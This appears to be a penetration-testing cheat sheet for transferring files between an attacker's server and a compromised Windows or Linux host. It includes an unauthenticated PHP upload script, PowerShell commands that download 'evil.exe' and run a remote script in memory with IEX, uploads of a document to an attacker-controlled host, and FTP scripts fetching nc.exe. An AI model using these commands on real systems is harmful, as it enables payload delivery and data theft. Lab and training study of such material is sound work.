 ```yaml
---
description: >-
  Include scipts, commands to quickly transfer files to and from a remote
  server.
---
```


# File Transfer

### Server

Create a listener to receive files from a remote client.

#### PHP webserver

Create `/var/www/html/upload.php`

```php
// upload.php
<?php
    $uploaddir = '/var/www/uploads/';
    $uploadfile = $uploaddir . $_FILES['file']['name'];
    move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Create `uploads` folder in /var/www/html/

```sh
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads
```

#### FTP server

Install Pure-FTPd:

```sh
sudo apt update && sudo apt install pure-ftpd
```

Create FTP user, home folder:

```sh
#!/bin/bash

sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd ftp -u ftpuser -d /home/ftp
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /home/ftp
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

#### SMB Server

SMBv1

```sh
python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

SMBv2

{% code overflow="wrap" %}
```sh
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username kali -password kali kali .
```
{% endcode %}

### Windows client

#### HTTP

**Download**

{% code overflow="wrap" %}
```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'evil.exe')
```
{% endcode %}

```powershell
powershell Invoke-WebRequest -Uri http://10.11.0.4/evil.exe -OutFile evil.exe
```

**Run a PowerShell script from remote file without saving**

{% code overflow="wrap" %}
```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/evil.ps1')
```
{% endcode %}

**Execute an Invoke powershell in CMD**

Call the funtion right in the file

```sh
function Invoke-MS16032 {
    ...
}

Invoke-MS16032 "IEX ..."
```

**Upload**

{% code overflow="wrap" %}
```sh
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```
{% endcode %}

#### FTP

Use FTP command (use SEND/GET command to transfer files):

```sh
open 10.11.0.4 21
USER ftp 
ftp 
bin
GET nc.exe 
bye 
```

Interactive shell:

```sh
echo open 10.11.0.4 21 > ftp.txt
echo USER offsec >> ftp.txt
echo lab >> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye
```

Run ftp with file:

```sh
ftp -v -n -s:ftp.txt
```

#### TFTP

```sh
tftp -i 10.11.0.4 put important.docx
```

#### SMB

Authentication:

```sh
net use \\10.10.10.10 /USER:kali kali
```

**Download**

```sh
copy \\10.10.10.10\kali\important.docx c:\important.docx
```

**Upload**

```sh
copy c:\important.docx \\10.10.10.10\kali
```

### Linux Client

#### HTTP

**Download**

```sh
wget http://10.0.0.4/evil -O evil
```

```sh
curl http://10.0.0.4/evil -o evil
```

**Upload**

```sh
curl -i -X POST -F 'file=@evil.exe' http://10.0.0.4/upload.php
```

#### FTP

**Use FTP client**

```sh
ftp username:password@ftpserver
```

```sh
PUT evil.elf
GET evil.elf
```

**Use wget**

```sh
wget ftp://username:password@ftpserver/evil.elf
```
